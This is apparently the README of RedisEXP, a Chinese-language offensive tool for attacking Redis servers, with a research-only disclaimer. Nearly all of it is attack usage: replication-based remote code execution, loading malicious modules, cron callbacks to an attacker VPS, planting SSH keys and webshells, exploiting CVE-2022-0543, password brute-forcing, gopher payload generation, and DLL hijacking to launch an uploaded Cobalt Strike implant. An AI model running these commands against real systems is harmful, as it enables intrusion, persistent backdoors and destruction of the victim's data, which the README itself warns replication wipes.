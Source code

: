 ## Redis 漏洞利用工具


### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------

**详细命令使用： `-h` 查看**


```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

基本连接: 
RedisExp.exe -r 192.168.19.1 -p 6379 -w 123456

执行Redis命令：
RedisExp.exe -m cli -r 192.168.19.1 -p 6379 -w 123456 -c info

加载dll或so执行命令：
RedisExp.exe -m load -r 目标IP -p 目标端口 -w 密码 -rf (目标 dll | so 文件名)
RedisEXP.exe -m load -r 127.0.0.1 -p 6379 -rf exp.dll -n system -t system.exec

主从复制命令执行：
RedisExp.exe -m rce -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port [-c whoami 单次执行] -rf 目标文件名[exp.dll | exp.so (Linux)]
RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -c whoami
RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -c whoami -rf exp.so

主从复制上传文件：
RedisExp.exe -m upload -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port -rp 目标路径 -rf 目标文件名 -lf 本地文件
RedisEXP.exe -m upload -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -rp . -rf 1.txt -lf .\README.md

主动关闭主从复制：
RedisExp.exe -m close -r 目标IP -p 目标端口 -w 密码

写计划任务：
RedisExp.exe -m cron -r 目标IP -p 目标端口 -w 密码 -L VpsIP -P VpsPort
RedisEXP.exe -m cron -r 192.168.1.8 -p 6379 -L 192.168.1.8 -P 9001

写SSH 公钥：
RedisExp.exe -m ssh -r 目标IP -p 目标端口 -w 密码 -u 用户名 -s 公钥
RedisEXP.exe -m ssh -r 192.168.1.8 -p 6379 -u root -s ssh-aaaaaaaaaaaaaa

写webshell：
RedisExp.exe -m shell -r 目标IP -p 目标端口 -w 密码 -rp 目标路径 -rf 目标文件名 -s Webshell内容 [base64内容使用 -b 来解码]
RedisEXP.exe -m shell -r 127.0.0.1 -p 6379 -rp . -rf shell.txt -s MTIzNA== -b

CVE-2022-0543：
RedisExp.exe -m cve -r 目标IP -p 目标端口 -w 密码 -c 执行命令

爆破Redis密码：
RedisExp.exe -m brute -r 目标IP -p 目标端口 -f 密码字典
RedisEXP.exe -m brute -r 127.0.0.1 -p 6378 -f pass.txt

生成gohper：
RedisExp.exe -m gopher -r 目标IP -p 目标端口 -f gopher模板文件

执行 bgsave：
RedisExp.exe -m bgsave -r 目标IP -p 目标端口 -w 密码

判断文件（需要绝对路径）：
RedisExp.exe -m dir -r 目标IP -p 目标端口 -w 密码 -rf c:\windows\win.ini

```



1. exp.dll 和 exp.so 来自 https://github.com/0671/RabR 已经把内容分别加载到 dll.go 和 so.go 可以直接调用。

2. 在写入webshell的时候因为有一些特殊字符，可以使用把webshell进行 base64 编码，然后使用 -b 参数来解码

3. **有空格的命令、目录或文件同时使用双引号和单引号 `"'ls /'"`**

4. 关闭Redis压缩(写入乱码的时候可以关闭压缩，工具在写入shell的时候默认添加了关闭压缩，写入后再恢复开启压缩)

   ```
   config set rdbcompression no
   ```

   

5. `stop-writes-on-bgsave-error` 默认为 `yes`, 如果 Redis 开启了 RDB 持久化并且最后一次失败了，Redis 默认会停止写入，让用户意识到数据的持久化没有正常工作。临时的解决方案是 `conf set stop-writes-on-bgsave-error` 设置为 no，只是让程序暂时忽略了这个问题，但是数据的持久化的问题并没有。（工具会默认设置为 `no` ，等工具退出的时候再重新设置回原来的值`yes`）

   ```
   config set stop-writes-on-bgsave-error no
   ```

   



### dll 劫持

利用dbghelp.dll：[https://github.com/P4r4d1se/dll_hijack](https://github.com/P4r4d1se/dll_hijack)

```
上传 cs 马
.\RedisEXP.exe -m upload -r 127.0.0.1 -p 6378 -w 123456 -L 127.0.0.1 -P 2222 -rp c:\users\public -rf test.exe  -lf artifact.exe

上传 dbghelp.dll 到 redis-server.exe 所在目录进行劫持
.\RedisEXP.exe -m upload -r 127.0.0.1 -p 6378 -w 123456 -L 127.0.0.1 -P 2222 -rp . -rf dbghelp.dll  -lf dbghelp.dll

触发dll劫持
.\RedisEXP.exe -m bgsave -r 127.0.0.1 -p 6378 -w 123456
```



### 生成gohper

```
RedisExp.exe -m gopher -r 目标IP -p 目标端口 -f gopher模板文件
```

写shell模板

```
config set dir /tmp
config set dbfilename shell.php
set 'webshell' '<?php phpinfo();?>'
bgsave
```



### 报错

```
工具报错：[ERR Error loading the extension. Please check the server logs.]        module load /tmp/exp.so

服务端报错：Module /tmp/exp.so failed to load: It does not have execute permissions.
```

有可能是 Redis 版本太高， exp.so 没有执行权限导致加载不了。具体需要查看服务端的报错



### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher
- [原创 Paper | Windows 与 Java 环境下的 Redis 利用分析](https://mp.weixin.qq.com/s/f7hPOoSSiRJpyMK51_Vxrw)



